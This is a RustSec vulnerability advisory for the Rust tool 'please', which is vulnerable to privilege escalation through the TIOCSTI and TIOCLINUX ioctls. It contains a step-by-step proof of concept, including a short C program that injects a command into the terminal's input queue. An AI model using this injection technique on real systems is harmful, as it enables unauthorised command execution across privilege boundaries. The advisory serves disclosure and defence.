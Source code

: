 ```toml
[advisory]
id = "RUSTSEC-0000-0000"
package = "pleaser"
date = "2023-04-29"
url = "https://gitlab.com/edneville/please/-/issues/13"
categories = ["privilege-escalation"]
keywords = []
cvss = "CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N"

[versions]
patched = []

[affected]
```

# Vulnerable to privilege escalation using ioctls TIOCSTI and TIOCLINUX

please is vulnerable to privilege escalation using ioctls TIOCSTI
and TIOCLINUX on systems where they are not disabled.

To check if TIOCSTI is disabled check the output from `sysctl dev.tty.legacy_tiocsti`:
```
$ sysctl dev.tty.legacy_tiocsti
dev.tty.legacy_tiocsti = 0
```
Where 0 means that it's disabled and the system is not vulnerable, and 1 the opposite.

## Proof of concept

```
$ cd "$(mktemp -d)"
$ git clone --depth 1 https://gitlab.com/edneville/please.git
$ cd please/
$ git rev-parse HEAD  # f3598f8fae5455a8ecf22afca19eaba7be5053c9
$ cargo test && cargo build --release
$ echo "[${USER}_as_nobody]"$'\nname='"${USER}"$'\ntarget=nobody\nrule=.*\nrequire_pass=false' | sudo tee /etc/please.ini
$ sudo chown root:root ./target/release/please
$ sudo chmod u+s ./target/release/please
$ cat <<TIOCSTI_C_EOF | tee TIOCSTI.c
#include <sys/ioctl.h>

int main(void) {
  const char *text = "id\n";
  while (*text)
    ioctl(0, TIOCSTI, text++);
  return 0;
}
TIOCSTI_C_EOF
$ gcc -std=c99 -Wall -Wextra -pedantic -o /tmp/TIOCSTI TIOCSTI.c
$ ./target/release/please -u nobody /tmp/TIOCSTI  # runs id(1) as ${USER} rather than nobody
```

## Please note that

This affects both the case where root wants to drop privileges as well when non-root wants to gain other privileges.
